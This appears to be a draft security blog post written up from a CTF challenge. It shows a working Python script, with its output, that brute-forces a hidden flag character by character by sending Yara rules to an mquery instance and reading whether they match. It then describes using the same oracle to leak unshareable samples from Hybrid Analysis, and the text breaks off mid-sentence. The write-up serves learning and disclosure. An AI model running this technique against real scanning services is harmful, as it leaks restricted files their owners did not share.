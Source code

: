 ```yaml
---
title: Using Yara to Leak Sensitive Data
author: Megabeets
type: post
date: -001-11-30T00:00:00+00:00
draft: true
url: /?p=1700
categories:
  - Uncategorized

---
```

During CONFidence Teaser CTF, one specific task caught my interest. Not because it was hard or complicated &#8211; it wasn&#8217;t, but because the concept behind it was interesting and relevant to my day-to-day work as a malware researcher. 

In this short article, I will show a **highly esoteric**, not to say **trivial**, concept in which you can leak the content of &#8220;sensitive&#8221; files on systems where scanning the files with Yara is allowed, but downloading the files is not possible. Not only that I&#8217;ll show how it was used, as an **intended solution**, to solve the &#8220;Hidden Flag&#8221; challenge on the CTF, but will also demonstrate how it can be used to retrieve the data of TLP;RED, or un-downloadable files on premium services such as Hybrid-Analysis, where the major limitation is the bandwidth.

Let&#8217;s not move too fast and start from the beginning, the CTF challenge. On &#8220;Hidden-Flag&#8221;, the most solved challenge in this CTF, we are given an online instance of [mquery][1], a &#8220;YARA malware query accelerator&#8221;. In other words, the system lets you run your Yara rules on a repository of files, very fast. The flag, as it seems, exists in the content of a file found in the corpus of files that are indexed and scanned by _mquery_. As a malware researcher, and as a [cert.pl][2] old fanboy, I was already familiar with _mquery_ and experienced with using it. 

The initial idea was to extract the flag using boolean queries of Yara rules. To prove that this concept really works, I started from this sample rule:

```
rule test {
  strings:
    $flag = "p4{"
  condition:
    $flag
}
```


&#8220;p4{&#8221; is the known prefix for flags in this CTF, and indeed, this simple rule showed that the concept is potentially possible and we can now start slowly retrieving the flag. <figure class="wp-block-image size-large">

<img src="./mquery-screenshot.png" /> </figure> 

In order to retrieve the rest of the flag, we can slowly &#8220;brute force&#8221; it character by character, hoping there will not be any &#8220;brute force&#8221; mitigation or similar limitation. Since I am familiar with the project, I know it has a REST API we can use for our help. For those of you who weren&#8217;t familiar with _mquery_ before, it can be figured out from the [tests][3].

And indeed, we can quickly write a script to brute force the flag, character by character.

```
import string
import requests

QUERY_URL = "http://hidden.zajebistyc.tf/api/query/high"
MATCHES_URL = "http://hidden.zajebistyc.tf/api/matches/{}?offset=0&limit=50"

def request_query (query):
    res = requests.post(QUERY_URL, json={"method": "query", "raw_yara": query})
    res.raise_for_status()
    query_hash = res.json()["query_hash"]
    res = requests.get(MATCHES_URL.format(query_hash))
    if res.json()["job"]["status"] == "done":
        return res


# Define a rule tempplate

test_yara = """
rule find_flag {{
    strings:
        $flag = "{0}"
    condition:
        $flag
}}
"""

# Generate a list of potential characters
potential_chars = "-_}"+string.ascii_lowercase+string.digits+string.ascii_uppercase+"@!"  

# Start from the known prefix of the flag

flag = "p4{"

while True:
    print("[+] Found:",flag)
    for c in potential_chars:
        res = request_query(test_yara.format(flag + c))
        if len(res.json()["matches"]) > 0:
            flag += c
            break
    if c == "}":
        break

print("[+] Flag:", flag)

# flag is "p4{ind3x1ng-l3ak5}"
```


Let&#8217;s run the script and see the results come quickly:

```
$ python3 solution.py

[+] Found: p4{
[+] Found: p4{i
[+] Found: p4{in
[+] Found: p4{ind
[+] Found: p4{ind3
[+] Found: p4{ind3x
[+] Found: p4{ind3x1
[+] Found: p4{ind3x1n
[+] Found: p4{ind3x1ng
[+] Found: p4{ind3x1ng-
[+] Found: p4{ind3x1ng-l
[+] Found: p4{ind3x1ng-l3
[+] Found: p4{ind3x1ng-l3a
[+] Found: p4{ind3x1ng-l3ak
[+] Found: p4{ind3x1ng-l3ak5
[+] Flag: p4{ind3x1ng-l3ak5}

```


### Real-life implications

While this CTF challenge wasn&#8217;t the hardest, to say the least, it indeed shows an interesting concept. For a desperate and motivated-enough person, it is possible to leak some data that wasn&#8217;t meant to be shared with them. But to make this happen, it requires a very niche set-up in which file storage can be scanned with Yara (or any other scanning engine) but some or all the files cannot be downloaded. Esoteric as it sounds, it can happen. The fact is, that this is the exact situation that Cert Polska is dealing with and on which the aforementioned challenge is based. Having a TLP;RED samples in their repository prevents the Polish Cert to publicly open their own _mquery_ instance to the public or other organizations. Having access to such Yara scanning engine on a repository with unshareable samples is a risk they refuse to take. `mquery` is not the only platform to let you scan files using Yara, there are more &#8211; some of them are even commercial.

### Hybrid Analysis

CrowdStrike&#8217;s Hybrid-Analysis is a free automated malware analysis service. Its main feature is a very popular sandbox that is commonly used by the community. Community members upload samples to the platform, and the samples being analyzed in the sandbox. The user are choosing whether they wan to share the binary sample with the community or not. If they choose not to, the analysis of the file is still available to the community, so is the meta-data of the file. The sample itself, of course, is marked as unshareable and cannot be accessed by the community. Finding such &#8220;not-for-share&#8221; files is very easy because Hybrid Analysis highlights these files and marks them visibly.

One of the less-familiar features of Hybrid Analysis is their super-fast Yara scanner. It lets the users the ability to &#8220;Hunt samples matching YARA rules at the byte level.&#8221;. Essentially, users can create their Yara rule and scan it on the entire sample repository of one of the most popular malware analysis services out there. You see where I&#8217;m going at, right? If some samples are not shared publicly, but we do have their metadata, including their hash and some strings from them, we can easily start leaking the entire binary, or parts of it as we wish. Adding that to the fact that Hybrid Analysis&#8217; Yara scanner is very fast, we can run a Yara query 



<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="./megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: https://github.com/CERT-Polska/mquery
 [2]: https://www.cert.pl/en/
 [3]: https://github.com/CERT-Polska/mquery/blob/master/src/tests/test_api.py